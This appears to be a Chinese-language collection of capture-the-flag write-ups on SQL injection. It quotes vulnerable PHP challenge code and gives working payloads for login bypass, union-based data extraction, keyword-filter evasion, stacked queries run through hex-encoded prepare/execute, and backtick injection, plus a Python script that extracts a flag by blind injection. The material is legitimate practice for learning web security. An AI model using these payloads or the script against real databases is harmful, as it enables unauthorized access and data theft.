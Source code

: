 # sql注入做题总结

### 1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
### 2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
### 3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出
    
### 4.CG-CTF:SQL注入2

```php
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

    wp:没有任何过滤，sql语句的用法是将pw从表ctf中取出，在mysql中，当你使用了union语句，而联合查询前的语句返回空，
    则后面的语句的结果就会等于前面字段。
    如select pw from ctf where name='' union select '值';
    那么返回的结果为：pw=值；
    所以payload:user='union select "md(str)"--+&pass=str
    
### 5.百度杯九月场：SQL

    题目为int型注入，过滤了or和and和select，可以使用<>过滤
    payload:id=o<>rder by 3   知道字段为3
    id=union sele<>ct 1,schema_name,3 from info<>rmaton_schema.schemata得到数据库名sqli
    id=union sel<>ect 1,table_name,3 from info<>rmation.tables where table_schema='sqli' 得到表info
    id=union sele<>ct 1,column_name,3 from info<>rmation.columns where table_name='info'得到字段flAg_T5ZNdrm
    id=union sel<>ect 1,flAg_T5ZNdrm,3 from sqli.info得到flag{6b453f35-bc6b-41a4-852c-75a40b003bd1}

### 6.百度杯九月场：SQLI
    
    这题是逗号过滤
    输入 union select 1,2 %23时回显 1'union select 1猜测为逗号过滤，使用join绕过过滤
    join语句:
       select 字段1，字段2 from 表名 where id=xxx union select * from (select 1) a join (select 2) b；
    多少个字段就select多少个，这题通过order by得知查询了2个字段，所以有2个select。
    a和b分别为select 1 和select 2的别名
    若前面id为-1，则查询结果中为空，则显示union后面的数据
    payload:id=-1' union select * from (select 1) a join (select 2) b %23
    回显2则可以在2处插入查询语句。后略
### 7.BUUCTF：[强网杯 2019]随便注
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
    由于过滤了很多查询语句，不过，可以使用16进制绕过
    先set @a=0x------ 
    然后使用prepare将@a设置为sql语句，再使用execute [名字]来执行

    wp:由于select被过滤，所以需要使用堆叠注入
    1';show databases;# 得到数据库supersqli
    1';show tables from supersqli; # 得到表1919810931114514
    1';show column from `1919810931114514`;# 得知只有flag一个字段
    构造语句select flag from `1919810931114514`将其转为16进制得到73656C65637420666C61672066726F6D20603139313938313039333131313435313460
    所以最终payload：
    inject=1';Set @a=0x73656C65637420666C61672066726F6D20603139313938313039333131313435313460;prepare test from @a;execute test;#
    
##### 注意：
    语句需要一次执行，如果分为set和prepare和execute分次发包的话无法执行。不知道为啥= =
    使用set会显示strstr过滤，但是strstr是严格区分大小写的，Set绕过，stristr为不区分大小写。
    
### 8.BUUCTF：[SUCTF 2019]EasySQL

    SQL语句为：select $_POST[query] || flag from flag 完全猜不到
    ||起到or的作用
    语句为：select post的数据 or flag from flag;
    payload：*,1
    
### 9.JarvisOJ：dctf-inject
```php
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);  
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

    wp:考察反引号注入
    desc `表名1` `表名2`并不会报错
    select '字段名' from 表名``union select 123;也不会报错，这里``就相当于一个空格。
    所以payload：
    flag``union select 123 limit 123;就可以回显123了。
    后略
    记得多看最终的sql执行语句，先判定从哪个语句进行注入！
    
##### 注意：
    
    mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
    这个语句其实只需要不报错就行了，不必要返回什么东西，有点坑爹，我一直以为要有返回数据才能绕过。
### 10.BUUCTF：[CISCN2019 华北赛区 Day2 Web1]Hack World

    payload: 1^(if((ascii(substr((select(flag)from(flag)),1,1))=102),0,1))

放脚本：
    
```python
import requests
import sys


url = 'http://3d69baf5-f2be-435e-a2e5-9f46bd2f2d9b.node3.buuoj.cn/index.php'
data_len = len(requests.post(url, data={'id': '1^(if((ascii(substr((select(flag)from(flag)),1,1))=102),0,1))'}).text)
print data_len

for i in range(0, 50):
    for j in range(1, 128):
        payload = '1^(if((ascii(substr((select(flag)from(flag)),'+str(i)+',1))='+str(j)+'),0,1))'
        post_data = {"id" : payload}
        res = requests.post(url, data=post_data)
        if len(res.text) == data_len:
            if chr(j) == '}':
                print '}'
                break
            sys.stdout.write(chr(j))
```
